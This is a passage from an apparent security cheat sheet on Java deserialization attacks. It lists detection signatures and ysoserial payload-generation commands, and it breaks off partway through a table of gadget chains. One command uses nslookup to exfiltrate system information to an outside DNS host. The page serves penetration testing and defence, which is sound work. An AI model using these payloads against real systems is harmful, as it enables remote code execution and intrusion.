 # Java Deserialization

> Java serialization is the process of converting a Java object’s state into a byte stream, which can be stored or transmitted and later reconstructed (deserialized) back into the original object. Serialization in Java is primarily done using the `Serializable` interface, which marks a class as serializable, allowing it to be saved to files, sent over a network, or transferred between JVMs.


## Summary

* [Detection](#detection)
* [Tools](#tools)
    * [Ysoserial](#ysoserial)
    * [Burp extensions using ysoserial](#burp-extensionsl)
    * [Alternative Tooling](#alternative-tooling)
* [YAML Deserialization](#yaml-deserialization)
* [ViewState](#viewstate)
* [References](#references)


## Detection

- `"AC ED 00 05"` in Hex
    * `AC ED`: STREAM_MAGIC. Specifies that this is a serialization protocol.
    * `00 05`: STREAM_VERSION. The serialization version.
- `"rO0"` in Base64
- `Content-Type` = "application/x-java-serialized-object"
- `"H4sIAAAAAAAAAJ"` in gzip(base64)


## Tools

### Ysoserial

[frohoff/ysoserial](https://github.com/frohoff/ysoserial) : A proof-of-concept tool for generating payloads that exploit unsafe Java object deserialization.

```java
java -jar ysoserial.jar CommonsCollections1 calc.exe > commonpayload.bin
java -jar ysoserial.jar Groovy1 calc.exe > groovypayload.bin
java -jar ysoserial.jar Groovy1 'ping 127.0.0.1' > payload.bin
java -jar ysoserial.jar Jdk7u21 bash -c 'nslookup `uname`.[redacted]' | gzip | base64
```

**List of payloads included in ysoserial:**

| Payload             | Authors                                | Dependencies |
| ------------------- | -------------------------------------- | --- |
| AspectJWeaver       | @Jang                                  | aspectjweaver:1.9.2, commons-collections:3.2.2 |
| BeanShell1          | @pwntester, @cschneider4711            | bsh:2.0b5 |
| C3P0                | @mbechler                              | c3p0:0.9.5.2, mchange-commons-java:0.2.11 |
| Click1              | @artsploit                             | click-nodeps:2.3.0, javax.servlet-api:3.1.0 |
| Clojure             | @JackOfMostTrades                      | clojure:1.8.0 |
| CommonsBeanutils1   | @frohoff                               | commons-beanutils:1.9.2, commons-collections:3.1, commons-logging:1.2 |
| CommonsCollections1 | @frohoff                               | commons-collections:3.1 |
| CommonsCollections2 | @frohoff                               | commons-collections4:4.0 |
| CommonsCollections3 | @frohoff                               | commons-collections:3.1 | 
| CommonsCollections4 | @frohoff                               | commons-collections4:4.0 |